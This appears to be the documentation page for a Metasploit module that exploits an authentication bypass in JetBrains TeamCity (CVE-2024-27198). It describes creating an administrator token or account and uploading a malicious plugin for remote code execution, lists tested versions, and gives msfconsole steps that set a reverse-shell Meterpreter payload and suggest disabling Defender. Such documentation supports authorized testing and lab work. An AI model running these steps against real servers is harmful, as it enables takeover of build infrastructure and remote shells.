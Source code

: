 ## Vulnerable Application
This module exploits an authentication bypass vulnerability in JetBrains TeamCity. An unauthenticated
attacker can leverage this to access the REST API and create a new administrator access token. This token
can be used to upload a plugin which contains a Metasploit payload, allowing the attacker to achieve
unauthenticated RCE on the target TeamCity server. On older versions of TeamCity, access tokens do not exist
so the exploit will instead create a new administrator account before uploading a plugin. Older version of
TeamCity have a debug endpoint (/app/rest/debug/process) that allows for arbitrary commands to be executed,
however recent version of TeamCity no longer ship this endpoint, hence why a plugin is leveraged for code
execution instead, as this is supported on all versions tested.

For a technical analysis of the vulnerability, read our [Rapid7 Analysis](https://attackerkb.com/topics/K3wddwP3IJ/cve-2024-27198/rapid7-analysis).

## Testing
[Download](https://www.jetbrains.com/teamcity/download/) and
[install](https://www.jetbrains.com/help/teamcity/install-and-start-teamcity-server.html) a vulnerable version of
TeamCity for either Windows or Linux, e.g. version 2023.11.3. By default the server will listen for HTTP
connections on port 8111 (Older version of the product listen on port 80 by default).

The exploit has been tested against:
 * TeamCity 2023.11.3 (build 147512) running on Windows Server 2022
 * TeamCity 2023.11.2 (build 147486) running on Windows Server 2022
 * TeamCity 2023.11.3 (build 147512) running on Linux
 * TeamCity 2018.2.4 (build 61678) running on Windows Server 2016

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

Note: The check routine will display the target platform, this can be used to decide what target to select if the
command payloads are to be used. The Java payloads are platform agnostic.

1. Start msfconsole
2. `use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set payload java/meterpreter/reverse_tcp`
6. `set LHOST eth0`
7. `check`
8. `exploit`

## Options
